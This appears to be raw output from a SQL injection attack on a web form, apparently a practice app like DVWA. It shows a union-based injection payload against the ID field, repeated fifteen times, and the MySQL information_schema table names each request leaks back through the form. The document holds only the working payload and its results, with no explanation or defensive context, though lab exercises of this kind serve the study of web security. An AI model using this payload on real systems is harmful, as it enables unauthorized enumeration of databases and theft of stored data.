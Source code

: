 	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: CHARACTER_SETS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: COLLATIONS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: COLLATION_CHARACTER_SET_APPLICABILITY
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: COLUMNS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: COLUMN_PRIVILEGES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: ENGINES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: EVENTS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: FILES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: GLOBAL_STATUS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: GLOBAL_VARIABLES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: KEY_COLUMN_USAGE
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: PARTITIONS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: PLUGINS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: PROCESSLIST
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: PROFILING
	